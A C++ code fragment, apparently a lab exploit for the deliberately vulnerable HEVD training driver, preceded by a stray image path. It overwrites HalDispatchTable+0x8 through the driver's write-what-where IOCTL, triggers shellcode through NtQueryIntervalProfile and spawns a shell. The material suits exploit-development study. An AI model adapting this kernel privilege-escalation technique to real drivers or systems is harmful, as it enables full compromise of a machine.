 ```cpp
	UINT64 OffHalDispatchTable = 0;
	PVOID pHalDispatchTable = GetProcAddress(hKernelBase, "HalDispatchTable");
	if (pHalDispatchTable == nullptr) {
		printf("\n[!] ERROR GETTING THE ADDRESS TO \"HalDispatchTable\": %d\n", GetLastError());
		CloseHandle(hKernelBase);
		getchar();
		return -1;
	}
	else {
		OffHalDispatchTable = (UINT_PTR)pHalDispatchTable - (UINT_PTR)hKernelBase;
		printf("\n[HalDispatchTable KM Address] -> 0x%p\n\t\\__[HalDispatchTable Offset] -> 0x%p\n", (pKernelBase + OffHalDispatchTable), OffHalDispatchTable);
		CloseHandle(hKernelBase);
	}

	HANDLE hHEVD = CreateFileW(L"\\\\.\\HackSysExtremeVulnerableDriver", (GENERIC_READ | GENERIC_WRITE),
		0, nullptr, OPEN_EXISTING, 0, nullptr);
	if (hHEVD == INVALID_HANDLE_VALUE) {
		printf("\nError getting a handle to the driver\n");
		CloseHandle(hKernelBase);
		getchar();
		return -1;
	}
	printf("\nHANDLE created successfully!\n");

	UINT64 HalDispatchTable0x8 = (pKernelBase + OffHalDispatchTable + 0x8);

	void* ShellcodeAddr = VirtualAlloc(nullptr, 150, MEM_COMMIT | MEM_RESERVE, PAGE_EXECUTE_READWRITE);
	memcpy(ShellcodeAddr, pShellcode, 150);

	WRITE_WHAT_WHERE WhaWhe = { 0 };
	WhaWhe.What = (void*)&ShellcodeAddr;
	WhaWhe.Where = (void*)HalDispatchTable0x8;

	ULONG lpBytesReturned = 0;
	DeviceIoControl(hHEVD, 0x22200B, &WhaWhe, sizeof(WRITE_WHAT_WHERE), nullptr, 0, &lpBytesReturned, nullptr);

	_NtQueryIntervalProfile NtQueryIntervalProfile = (_NtQueryIntervalProfile)GetProcAddress(GetModuleHandle(L"ntdll.dll"), "NtQueryIntervalProfile");
	if (NtQueryIntervalProfile == nullptr) {
		printf("\n[!] ERROR GETTING THE POINTER TO \"NtQueryIntervalProfile\": %d\n", GetLastError());
		VirtualFree(ShellcodeAddr, 150, MEM_RELEASE);
		CloseHandle(hHEVD);
		getchar();
		return -1;
	}
	printf("\n[NtQueryIntervalProfile] -> 0x%p\n", NtQueryIntervalProfile);

	ULONG Interval = 0;
	NTSTATUS Status = NtQueryIntervalProfile((_KPROFILE_SOURCE)0x3, &Interval);
	if (Status != 0) {
		printf("\nERROR EXECUTING \"NtQueryIntervalProfile\": 0x%0.16X\n", Status);
		VirtualFree(ShellcodeAddr, 150, MEM_RELEASE);
		CloseHandle(hHEVD);
		getchar();
		return -1;
	}

	SpawnShell();
```